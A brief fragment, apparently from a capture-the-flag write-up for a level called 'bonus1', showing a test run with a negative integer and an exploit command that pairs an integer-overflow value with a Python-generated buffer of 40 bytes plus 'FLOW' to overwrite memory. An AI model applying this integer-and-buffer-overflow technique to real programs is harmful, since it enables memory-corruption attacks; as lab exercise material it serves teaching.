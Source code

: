`./a.out -2147483637`
`44`

`./bonus1  -2147483637 $(python -c 'print "N" * 40 + "\x46\x4c\x4f\x57"')`
